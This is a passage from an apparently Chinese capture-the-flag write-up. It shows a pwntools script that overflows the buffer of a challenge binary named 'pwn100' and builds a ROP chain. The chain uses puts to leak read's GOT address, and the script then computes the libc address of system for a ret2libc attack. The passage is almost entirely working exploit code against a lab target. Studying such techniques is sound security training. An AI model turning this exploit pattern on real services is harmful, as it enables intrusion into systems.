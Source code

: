 我们需要做的就是泄露一个got表中函数的地址，然后计算偏移得到system的地址:

```python
  #coding:utf-8

  from pwn import *

  io = remote("172.17.0.3", 10001)
  elf = ELF("./pwn100")

  puts_addr = elf.plt['puts']
  read_got = elf.got['read']

  start_addr = 0x400550
  pop_rdi = 0x400763
  universal_gadget1 = 0x400740
  # mov rdx, r13
  # mov rsi, r14
  # mov edi, r15d
  # call qword ptr [r12+rbx*8]

  universal_gadget2 = 0x40075a
  # pop rbx
  # pop rbp
  # pop r12
  # pop r13
  # pop r14
  # pop r15
  # retn

  binsh_addr = 0x601060
  # binsh_addr = 0x601040
  payload = "A"*72
  payload += p64(pop_rdi)
  payload += p64(read_got)
  payload += p64(puts_addr)
  payload += p64(start_addr)
  payload = payload.ljust(200, "B")

  io.send(payload)
  io.recvuntil('bye~\n')
  read_addr = u64(io.recv()[:-1].ljust(8, '\x00'))
  # read_addr = u64(io.recv().ljust(8,'\x00'))
  log.info("read_addr = %#x", read_addr)
  system_addr = read_addr - 0xb31e0
  log.info("system_addr = %#x", system_addr)
```
